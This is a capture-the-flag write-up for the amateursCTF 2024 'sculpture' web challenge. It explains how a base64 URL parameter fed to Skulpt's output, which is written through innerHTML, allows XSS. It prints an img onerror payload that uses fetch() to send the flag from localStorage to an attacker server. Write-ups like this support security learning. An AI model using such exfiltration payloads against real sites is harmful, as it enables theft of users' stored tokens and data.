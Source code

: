 # sculpture

> Client side rendered python turtle sculptures, why don't we play around with them.
> 
> Remote (for use in admin bot): https://amateurs-ctf-2024-sculpture-challenge.pages.dev 
> 
> Admin Bot: http://admin-bot.amt.rs/sculpture

Solution:

We are given with two files:
1. `index.html` - which contains the source code of the challenge web page
2. `admin-bot-excerpt.js` - obviously the source for the admin bot

Let's take a look at the admin bot source first...

```js
// bot powered by the redpwn admin bot ofc
['sculpture', {
    name: 'sculpture',
    timeout: 10000,
    handler: async (url, ctx) => {
      const page = await ctx.newPage()
      console.log(await page.browser().version());
      await page.goto("https://amateurs-ctf-2024-sculpture-challenge.pages.dev/", { timeout: 3000, waitUntil: 'domcontentloaded' })
      await sleep(1000);
      await page.evaluate(() => {
        localStorage.setItem("flag", "amateursCTF{fak3_flag}")
      })
      await sleep(1000);
      console.log("going to " + url)
      await page.goto(url, { timeout: 3000, waitUntil: 'domcontentloaded' })
      await sleep(1000)
    },
    urlRegex: /^https:\/\/amateurs-ctf-2024-sculpture-challenge\.pages\.dev/,
}]
```

So our flag is stored in the localStorage, and usually we can retrieve it via XSS.

Now let's take a look at the challenge web page

```html

<html> 
<head> 
<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.9.0/jquery.min.js" type="text/javascript"></script> 
<script src="https://skulpt.org/js/skulpt.min.js" type="text/javascript"></script> 
<script src="https://skulpt.org/js/skulpt-stdlib.js" type="text/javascript"></script> 

</head> 

<body> 

<script type="text/javascript"> 
// output functions are configurable.  This one just appends some text
// to a pre element.
function outf(text) { 
    var mypre = document.getElementById("output"); 
    mypre.innerHTML = mypre.innerHTML + text; 
} 
function builtinRead(x) {
    if (Sk.builtinFiles === undefined || Sk.builtinFiles["files"][x] === undefined)
            throw "File not found: '" + x + "'";
    return Sk.builtinFiles["files"][x];
}

// Here's everything you need to run a python program in skulpt
// grab the code from your textarea
// get a reference to your pre element for output
// configure the output function
// call Sk.importMainWithBody()
function runit() { 
   var prog = document.getElementById("yourcode").value; 
   var mypre = document.getElementById("output"); 
   mypre.innerHTML = ''; 
   Sk.pre = "output";
   Sk.configure({output:outf, read:builtinRead}); 
   (Sk.TurtleGraphics || (Sk.TurtleGraphics = {})).target = 'mycanvas';
   var myPromise = Sk.misceval.asyncToPromise(function() {
       return Sk.importMainWithBody("<stdin>", false, prog, true);
   });
   myPromise.then(function(mod) {
       console.log('success');
   },
       function(err) {
       console.log(err.toString());
   });
}

document.addEventListener("DOMContentLoaded",function(ev){
    document.getElementById("yourcode").value = atob((new URLSearchParams(location.search)).get("code"));
    runit();
});

</script> 

<h3>Try This</h3> 
<form> 
<textarea id="yourcode" cols="40" rows="10">import turtle

t = turtle.Turtle()
t.forward(100)

print "Hello World" 
</textarea><br /> 
<button type="button" onclick="runit()">Run</button> 
</form> 
<pre id="output" ></pre> 
<!-- If you want turtle graphics include a canvas -->
<div id="mycanvas"></div> 

</body> 

</html> 
```

In this part:

```
document.addEventListener("DOMContentLoaded",function(ev){
    document.getElementById("yourcode").value = atob((new URLSearchParams(location.search)).get("code"));
    runit();
});
```

We can determine that adding a URL parameter of `code=base64EncodedCodeHere` will execute our desired code to do XSS

Also, looking at the imported libraries, it uses Skulpt, for an in-browser implementation of Python. https://skulpt.org/

![image](1.png)

Visting the challenge web page will show a sample, as inteded based on the source file

I tried doing `print('<script>alert(1)</script>')` but it didn't work.

Decided to check https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html and found `<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>` working

![image](2.png)

Alright, let's extract the localStorage item then exfiltrate it to our web server.

```
print('<img src="/" onerror="fetch(\'https://[redacted]/?value=\' + localStorage.getItem(\'flag\'))" />')
```

Can be encoded to base64 using Cyberchef or other tools.

![image](3.png)

Submitted...

![image](4.png)

Boom!

Flag: `amateursCTF{i_l0v3_wh3n_y0u_can_imp0rt_xss_v3ct0r}`